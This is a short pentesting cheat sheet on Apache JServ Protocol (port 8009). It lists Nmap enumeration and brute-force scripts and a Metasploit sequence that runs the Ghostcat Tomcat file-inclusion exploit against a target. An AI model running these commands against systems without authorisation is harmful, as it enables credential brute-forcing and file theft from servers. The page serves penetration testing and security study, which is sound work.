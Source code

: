 ```yaml
---
title: Apache JServ Protocol (AJP) Pentesting
desc: Default port is 8009.
tags: [8009, AJP, Apache, Metasploit, Nmap, Web]
alts: []
render_with_liquid: false
---
```


## 1. Enumeration

1. **Use Nmap**

    ```sh
    nmap --script ajp-auth -p 8009 <target-ip>
    nmap --script ajp-auth --script-args ajp-auth.path=/login -p 8009 <target-ip>
    nmap --script ajp-brute -p 8009 <target-ip>
    nmap --script ajp-headers -p 8009 <target-ip>
    nmap --script ajp-methods -p 8009 <target-ip>
    nmap --script ajp-request -p 8009 <target-ip>
    ```

<br />

## 2. Vulnerabilities

1. **[Ghostcat File Inclusion](https://www.exploit-db.com/exploits/49039){:target="_blank"}**

    It's a vulnerability of **Tomcat AJP**

    - **Use Metasploit**

        ```sh
        msfconsole
        msf6 > use auxiliary/admin/http/tomcat_ghostcat
        msf6 auxiliary(admin/http/tomcat_ghostcat) > set rhosts <target-ip>
        msf6 auxiliary(admin/http/tomcat_ghostcat) > exploit
        ```
